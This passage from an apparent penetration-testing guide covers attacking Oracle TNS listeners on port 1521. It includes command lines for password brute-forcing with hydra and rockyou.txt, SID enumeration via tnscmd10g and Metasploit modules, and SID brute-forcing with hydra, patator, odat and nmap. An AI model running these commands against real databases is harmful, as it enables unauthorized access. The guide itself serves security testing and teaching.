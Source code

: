 Dump debugging information to the listener log

reload
	

Reload the listener configuration file

save_config
	

Write the listener configuration file to a backup location

stop
	

Invoke listener shutdown

If you receive an error, could be because TNS versions are incompatible (Use the --10G parameter with tnscmd10) and if the error persist, the listener may be password protected (you can see a list were all the errors are detailed here) — don't worry… hydra to the rescue:

hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener

The TNS listener could be vulnerable to MitM attacks. Check here how to check if the server is vulnerable and how to perform the attack (all versions up to version 12c are).
SID enumeration
What is a SID

The SID (Service Identifier) is essentially the database name, depending on the install you may have one or more default SIDs, or even a totally custom dba defined SID.

In some old versions (in 9 it works) you could ask for the SID and the database send it to you:

tnscmd10g status-p 1521 -h <IP> #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)
​
#msf1
msf> use auxiliary/scanner/oracle/sid_enum
msf> set rhost <IP>
msf> run
#msf2
msf> use auxiliary/admin/oracle/tnscmd
msf> set CMD (CONNECT_DATA=(COMMAND=STATUS))
msf> set rhost <IP>
msf> run #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)

If you cant access this way to the SIDs you will need to bruteforce them:

SID Bruteforce

I have merged the nmap and MSF sid lists into this one (without duplicates):
sids-oracle.txt
sids-oracle.txt - 5KB

hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 <IP> oracle-sid
patator oracle_login host=<IP> sid=FILE0 0=sids-oracle.txt -x ignore:code=ORA-12505
./odat.py sidguesser -s $SERVER -d $SID --sids-file=./sids.txt
msf> use auxiliary/admin/oracle/sid_brute #This will use the list located at /usr/share/metasploit-framework/data/wordlists/sid.txt
nmap --script +oracle-sid-brute -p 1521 10.11.1.202 #This will use the list lcated at /usr/share/nmap/nselib/data/oracle-sids
